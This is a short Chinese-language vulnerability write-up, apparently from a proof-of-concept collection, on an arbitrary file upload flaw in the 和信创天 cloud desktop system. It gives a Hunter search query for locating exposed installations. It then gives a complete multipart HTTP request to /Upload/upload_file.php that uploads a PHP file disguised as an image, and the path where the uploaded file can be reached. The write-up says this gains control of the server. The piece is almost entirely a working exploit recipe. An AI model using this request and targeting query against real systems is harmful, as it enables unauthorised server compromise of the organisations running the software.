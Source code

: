 # 和信创天云桌面系统upload_file存在任意文件上传

# 一、漏洞简介
和信创天专注虚拟化云计算领域，为首家集VOI/VDI/IDV于一体的云桌面厂家,助力教育、医疗、政企、军工、电力、金融等行业客户实现千台终端统一管理,确保数据安全与业务连续性。和信下一代云桌面基于VDI/VOI/IDV三种技术架构优势，对于用户应用场景有着普遍的适用性，前后端混合计算保证在调度服务器后端资源的同时，也能充分利用前端计算资源，高性能的电脑和低功耗的瘦终端均能流畅地运行各种操作系统与应用软件，能够轻松实现千点以上大规模终端的集中管理。和信创天云桌面系统upload_file存在任意文件上传，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 和信创天云桌面系统

# 三、资产测绘
+ hunter`web.body="和信下一代云桌面"`
+ 特征

![1700670558533-55a9d1bc-a7a3-4007-ba7d-54decc95331c.png](./img/L3khDGEcH1tVVfGk/1700670558533-55a9d1bc-a7a3-4007-ba7d-54decc95331c-942950.png)

# 四、漏洞复现
```python
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 192

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--
```

![1700670586959-6ff525af-136b-4194-904a-dd8f1474a990.png](./img/L3khDGEcH1tVVfGk/1700670586959-6ff525af-136b-4194-904a-dd8f1474a990-710340.png)

上传文件位置

```python
/Upload/1/test.php
```

![1700670612940-6bcb01bb-5acb-4705-b6d8-5e9f19145375.png](./img/L3khDGEcH1tVVfGk/1700670612940-6bcb01bb-5acb-4705-b6d8-5e9f19145375-550414.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/im6hi1mdzqn6l81q>